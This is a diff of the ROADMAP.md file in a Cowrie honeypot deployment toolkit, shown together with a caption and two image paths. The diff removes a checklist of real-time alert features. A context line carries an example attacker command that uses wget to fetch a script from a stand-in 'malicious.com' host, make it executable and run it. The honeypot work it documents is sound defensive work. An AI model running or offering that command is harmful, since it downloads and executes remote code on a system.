

Before and after one commit to reuteras/cowrie-deploy-toolkit, a Markdown page: ROADMAP.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/ROADMAP.md
+++ b/ROADMAP.md
@@ -99,15 +99,6 @@ wget http://malicious.com/bot.sh && chmod +x bot.sh && ./bot.sh
 ...
 ```
 
-### Real-time Alerts
-- [x] Webhook notifications (Slack, Discord, Teams)
-- [x] Threshold-based alerting (e.g., >100 attempts/hour)
-- [x] Alert on specific events:
-  - Malware downloads
-- [ ] Future enhancements:
-  - Successful logins
-  - Known attacker IPs (threat intel integration)
-
 ## Phase 2: Dashboard & Visualization
 
 ### Option 1: ELK Stack (Elasticsearch + Logstash + Kibana)
````
